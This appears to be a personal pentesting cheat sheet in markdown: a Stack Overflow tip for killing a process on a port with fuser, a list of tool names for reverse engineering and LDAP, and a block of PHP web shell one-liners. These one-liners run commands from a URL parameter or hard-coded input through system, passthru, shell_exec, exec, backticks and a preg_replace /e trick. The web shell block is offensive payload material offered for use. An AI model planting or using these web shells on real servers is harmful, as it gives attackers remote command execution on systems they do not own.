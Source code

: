 
# Kill a process
How to kill a process running on particular port in Kali Linux ?_?
or
How to kill a process if it show's port already in use ?_?

Stack overflow:
fuser 8080/tcp will print you PID of process bound on that port.
And this fuser -k 8080/tcp will kill that process.

https://stackoverflow.com/questions/11583562/how-to-kill-a-process-running-on-particular-port-in-linux


Web Shells
```
we could other php commands as well
trying all these <@456226577798135808> 
'# Execute one command
<?php system("whoami"); ?>

# Take input from the url paramter. shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>

# The same but using passthru
<?php passthru($_GET['cmd']); ?>

# For shell_exec to output the result you need to echo it
<?php echo shell_exec("whoami");?>

# Exec() does not output the result without echo, and only output the last line. So not very useful!
<?php echo exec("whoami");?>

# Instead to this if you can. It will return the output as an array, and then print it all.
<?php exec("ls -la",$array); print_r($array); ?>

# preg_replace(). This is a cool trick
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>

# Using backticks
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>

# Using backticks
<?php echo `whoami`; ?>'
```


# Reverse Engineering

dnSpy
ILSpy
Wine


## Alternate LDAPsearch

Apache Directory Studio

